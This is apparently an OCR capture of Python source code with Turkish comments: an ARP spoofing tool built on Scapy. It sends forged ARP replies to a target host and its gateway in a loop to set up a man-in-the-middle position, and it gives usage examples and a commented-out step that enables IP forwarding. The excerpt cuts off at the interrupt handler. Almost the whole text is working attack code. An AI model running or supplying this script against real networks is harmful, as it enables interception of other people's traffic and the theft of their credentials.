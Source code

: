 ```python

def arp_spoof(target_ip, spoof_ip, target_mac, interface):
    """
    Hedef IP'ye, spoof_ip'nin MAC adresinin bizim MAC adresimiz olduğunu söyler.
    Yani, target_ip'ye "spoof_ip benim!" deriz.
    """
    # op=2 ARP reply anlamına gelir.
    # Saldırganın kendi MAC adresini (Ether().src) kullanır.
    packet = Ether(dst=target_mac)/ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    sendp(packet, iface=interface, verbose=False)

def restore_arp(target_ip, source_ip, target_mac, source_mac, interface):
    """ARP tablolarını orijinal durumuna geri yükler."""
    packet = Ether(dst=target_mac, src=source_mac)/ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=source_ip, hwsrc=source_mac)
    # Birkaç kez göndermek daha güvenilir olabilir
    sendp(packet, count=4, iface=interface, verbose=False)

def main_arp_spoofer():
    if len(sys.argv) < 4:
        print("Kullanım: sudo python3 script_adi.py <arayüz> <hedef_ip> <gateway_ip>")
        print("Örnek: sudo python3 arp_spoofer.py eth0 192.168.1.105 192.168.1.1")
        sys.exit(1)

    interface = sys.argv[1]
    target_ip = sys.argv[2]
    gateway_ip = sys.argv[3]

    print(f"[*] Arayüz: {interface}, Hedef IP: {target_ip}, Gateway IP: {gateway_ip}")

    # IP forwarding'i aktif et (script içinden veya manuel olarak)
    # os.system("sudo sysctl -w net.ipv4.ip_forward=1") 
    # print("[*] IP Yönlendirme etkinleştirildi (eğer script yetkiliyse). Manuel kontrol edin: cat /proc/sys/net/ipv4/ip_forward")

    target_mac = get_mac(target_ip, interface)
    gateway_mac = get_mac(gateway_ip, interface)

    if not target_mac:
        print(f"[!] {target_ip} için MAC adresi bulunamadı. Çıkılıyor.")
        sys.exit(1)
    if not gateway_mac:
        print(f"[!] {gateway_ip} için MAC adresi bulunamadı. Çıkılıyor.")
        sys.exit(1)
    
    print(f"[+] Hedef MAC ({target_ip}): {target_mac}")
    print(f"[+] Gateway MAC ({gateway_ip}): {gateway_mac}")

    sent_packets_count = 0
    try:
        print("[*] ARP Spoofing başlatılıyor... (Durdurmak için Ctrl+C)")
        while True:
            # Hedefe (target_ip), gateway_ip'nin bizim MAC adresimizde olduğunu söyle
            arp_spoof(target_ip, gateway_ip, target_mac, interface)
            # Gateway'e (gateway_ip), target_ip'nin bizim MAC adresimizde olduğunu söyle
            arp_spoof(gateway_ip, target_ip, gateway_mac, interface)
            
            sent_packets_count += 2
            print(f"\r[*] Gönderilen paketler: {sent_packets_count}", end="")
            sys.stdout.flush() # Buffer'ı hemen yazdır
            time.sleep(2) # ARP tablolarını güncel tutmak için periyodik olarak gönder
            
    except KeyboardInterrupt:
```